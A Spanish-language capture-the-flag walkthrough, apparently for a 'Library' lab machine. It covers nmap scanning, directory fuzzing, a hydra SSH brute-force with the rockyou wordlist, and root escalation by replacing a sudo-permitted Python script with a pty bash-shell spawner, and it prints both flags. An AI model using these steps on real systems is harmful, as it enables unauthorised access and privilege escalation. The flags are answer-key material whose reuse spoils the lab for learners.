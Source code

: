# Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Imagen](images/Pasted_image_20250221170416.png)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![Imagen](images/Pasted_image_20250221170508.png)

El único interesante puede ser el directorio de  `/images/`

![Imagen](images/Pasted_image_20250221171240.png)

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![Imagen](images/Pasted_image_20250221171339.png)

Que puede ser `meliodas`por como vemos en la página anterior.

![Imagen](images/Pasted_image_20250221171459.png)

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![Imagen](images/Pasted_image_20250221171938.png)

```
ssh meliodas@10.10.31.106
```

![Imagen](images/Pasted_image_20250221172044.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/Pasted_image_20250221172143.png)

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![Imagen](images/Pasted_image_20250221172307.png)

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![Imagen](images/Pasted_image_20250221172514.png)

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![Imagen](images/Pasted_image_20250221172552.png)

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![Imagen](images/Pasted_image_20250221172815.png)

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![Imagen](images/Pasted_image_20250221172922.png)

```
e8c8c6c256c35515d1d344ee0488c617
```












